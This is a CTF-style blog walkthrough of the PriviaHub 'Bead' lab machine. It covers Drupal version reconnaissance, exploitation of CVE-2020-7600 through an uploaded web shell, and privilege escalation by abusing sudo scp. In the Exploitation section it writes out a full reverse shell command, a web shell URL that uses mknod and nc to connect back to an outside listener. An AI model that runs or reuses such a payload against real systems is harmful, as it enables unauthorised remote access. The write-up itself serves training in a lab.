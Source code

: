 ```yaml
---
title: "PriviaHub Bead Walkthourgh"
date: 2020-09-30 14:21 +0800
categories: [PriviaHub, Linux]
tags: [Drupal, CVE-2020-7600, scp]
author: CEngover
---
```


In this article we’re going to solve a vulnerable machine from [PriviaHub](https://app.priviahub.com/) Cyber Range Portal. Steps of the solution has described in below.

### Reconnaissance

- Nmap Scanning
- Finding exact version of Drupal
- Searching for exploit that belongs to version of Drupal

### Exploitation

- Exploitation with CVE-2020-7600
- Getting reverse shell

### Privilege Escalation

- Abuse of scp binary

## Reconnaissance

> The machine IP is 172.16.5.111 

As always we do I started with nmap scanning. I noticed that there are 2 open ports on the machine by running command that given in below.

> nmap -sC -sV 172.16.5.111 -oA nmap/bead-open-ports

![Markdowm Image][1]

As a result of scanning, OpenSSH service is running on port 22 and http service is running on port 80. Also it’s clear that there are several directory and files I can reach. 

![Markdowm Image][2]

When I visit the web page by following 80 port, I realised this web page is Drupal content management system. The scenario to be done came to my mind. I had to find a vulnerability about Drupal but there is a problem. I didn’t know what is the exact version of drupal.

![Markdowm Image][3]

Firstly, I ran whatweb tool and saw that what kind of technologies are using by the web site. It says that drupal has 7th version but that’s not enough. I have to find out which exact version does drupal have?

![Markdowm Image][4]

After a little bit reconnaissance, CHANGELOG.txt gave me what I need, the version. 

## Exploitation

![Markdowm Image][5]

It’s time to googling. I found a remote code execution vulnerability that drupal affected. This vulnerability has been published in exploitdb with CVE-2020-7600 code. Shortly, this exploit uploads a web shell to vulnerable system and gives us a terminal shell. I needed to upgrade my shell via reverse shell connection. This part was so hard for me because I tried many method but I couldn’t run my reverse shell payloads. After spending long time on google, I found a reverse shell payload that is making by mknod command.

![Markdowm Image][6]

I set up a listener on port 1337 and sent a reverse connection from web shell with

> http://172.16.5.111/sites/default/files/shell.php?c=mknod 0</tmp/backpipe p;/bin/sh /tmp/backpipe|nc 192.100.0.48 1337 1>/tmp/backpipe

## Privilege Escalataion

Now I have real shell and I’m rain user on the system. 

![Markdowm Image][7]

For privilege escalation I checked that is there any binary can I use with sudo rights? As a result, I saw that I can use /bin/scp command with no required password. I think, GTFObins is the best place where we can find exploitable binaries. As you see in the picture, I followed the steps and got root rights.

[1]: /assets/img/posts/bead/nmap.png
[2]: /assets/img/posts/bead/drupal.png
[3]: /assets/img/posts/bead/whatweb.png
[4]: /assets/img/posts/bead/version.png
[5]: /assets/img/posts/bead/exploit.png
[6]: /assets/img/posts/bead/shell.png
[7]: /assets/img/posts/bead/root.png
